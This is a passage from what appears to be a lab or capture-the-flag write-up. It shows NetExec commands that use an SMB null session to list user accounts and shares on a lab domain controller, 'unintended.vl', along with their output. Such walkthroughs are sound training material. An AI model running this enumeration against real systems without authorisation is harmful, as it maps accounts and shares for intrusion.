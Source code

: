 ```shell-session
supportedSASLMechanisms: GSS-SPNEGO
supportedSASLMechanisms: GSSAPI
supportedSASLMechanisms: NTLM
highestCommittedUSN: 4155
domainFunctionality: 4
forestFunctionality: 4
domainControllerFunctionality: 4
isGlobalCatalogReady: TRUE
```

```shell-session
└─$ nxc smb dc   
SMB         10.10.143.229   445    DC               [*] Windows 6.1 Build 0 x32 (name:DC) (domain:unintended.vl) (signing:True) (SMBv1:False)
```

We can enumerate users and shares with a SMB null session:

```shell-session
└─$ nxc smb dc -u '' -p '' --users          
SMB         10.10.143.229   445    DC               [*] Windows 6.1 Build 0 x32 (name:DC) (domain:unintended.vl) (signing:True) (SMBv1:False)
SMB         10.10.143.229   445    DC               [+] unintended.vl\: 
SMB         10.10.143.229   445    DC               -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.10.143.229   445    DC               Administrator                 2024-02-24 19:33:16 0       Built-in account for administering the computer/domain 
SMB         10.10.143.229   445    DC               Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         10.10.143.229   445    DC               krbtgt                        2024-02-24 19:33:16 0       Key Distribution Center Service Account 
SMB         10.10.143.229   445    DC               juan                          2024-02-24 19:40:31 0        
SMB         10.10.143.229   445    DC               abbie                         2024-02-24 19:40:32 0        
SMB         10.10.143.229   445    DC               cartor                        2024-02-24 19:40:32 0        
```

```shell-session
└─$ nxc smb dc -u '' -p '' --shares
SMB         10.10.143.229   445    DC               [*] Windows 6.1 Build 0 x32 (name:DC) (domain:unintended.vl) (signing:True) (SMBv1:False)
SMB         10.10.143.229   445    DC               [+] unintended.vl\: 
SMB         10.10.143.229   445    DC               [*] Enumerated shares
SMB         10.10.143.229   445    DC               Share           Permissions     Remark
SMB         10.10.143.229   445    DC               -----           -----------     ------
SMB         10.10.143.229   445    DC               sysvol                          
SMB         10.10.143.229   445    DC               netlogon                        
SMB         10.10.143.229   445    DC               home                            Home Directories
SMB         10.10.143.229   445    DC               IPC$                            IPC Service (Samba 4.15.13-Ubuntu)
```
